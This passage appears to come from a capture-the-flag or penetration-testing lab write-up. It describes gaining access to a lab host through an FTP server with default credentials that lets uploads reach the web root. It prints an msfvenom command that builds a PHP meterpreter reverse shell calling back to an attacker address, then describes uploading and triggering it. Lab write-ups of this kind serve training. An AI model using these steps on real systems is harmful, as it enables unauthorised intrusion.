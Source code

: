 Both pages inform us about a network that we can't yet access. In order to get access to it we will have to compromise one of the two machines. The FTP service 40121 on 172.16.37.234 looks promising. Let's start here.
<br/>

<details><summary> <b>ftp 172.16.37.234 40121</b> </summary></details>
<br/>
Using the default credentials  we are able to explore the FTP server. Note that by issuing some basic commands we can identify that the FTP service allows file uploads to the web root. This is a solid attack vector for remote code execution.
Therefore, let's create a reverse shell.

```bash
msfvenom -p php/meterpreter_reverse_tcp lhost=10.13.37.10 lport=53 -o meterpreter.php
```

In oder to upload the shell we just created via ftp we need to set up a listener. We can do this with Metasploit as follows:

<details><summary> <b>Metasploit Listener and initial Metasploit configuration</b> </summary></details>
<br/>

We can now go ahead and upload the file to obtain a remote shell.

<details><summary> <b>Shell upload via FTP</b> </summary></details>
<br/>
Ok, shell is up. We now need to activate it by visiting http://172.16.37.234:40180/meterpreter.php
<br/>
<img src="/assets/images/ctf3/meterpreter_browser_start.png" height="100%" width="100%">
<br/>
